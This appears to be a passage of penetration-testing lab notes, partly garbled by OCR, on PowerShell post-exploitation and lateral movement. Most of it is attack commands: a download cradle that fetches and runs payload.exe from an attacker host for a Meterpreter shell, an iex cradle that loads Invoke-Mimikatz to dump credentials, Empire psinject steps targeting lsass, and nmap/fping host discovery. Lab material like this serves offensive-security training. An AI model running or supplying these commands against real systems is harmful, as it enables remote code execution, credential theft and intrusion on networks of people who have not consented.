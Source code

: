 in the Java shell:
```powershell
powershell -c iex (New-Object Net.WebClient).DownloadFile('http://10.100.11.101:8000/payload.exe', 'C:\Windows\Temp\payload.exe')
```

// then execute it
	C:\windows\temp\payload.exe

> we should gain a shell back from meterpreter from our handler

### Obtain Hashes using Mimikatz

in Java session:
```powershell
	powershell -c iex (New-Object Net.WebClient).DownloadString('http://10.100.11.101:8000/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```

> of course, make sure the **Invoke-Mimikatz** is in the python web host directory.
this cradle will download and execute the Invoke-Mimikatz
we should get hashes back

### Extra [+]  PSINJECT

// PSINJECT is the same as migrate from metasploit but its from Empire
```powershell
interact <agent number>
shell ps

searchmodule psinject
usemodule management/psinject
set Agent <agent number>
set Listener http
set ProcId <the PID from the process you wanna migrate, in this case lsass>
execute
```

> this should open a new agent (session)
just type agents to visualize




## Lab 2 Powershell for post-exploitation and Lateral Movement

targets network: 172.17.80.0/24

myip: 175.13.80.5

### gather information
```bash
sudo nmap -sn -oG - 172.17.80.* | awk '/Up$/ {print $2}'
fping -a -g 172.17.80.0/24 2>/dev/null > hostsup

- 172.17.80.1
- 172.17.80.100
```
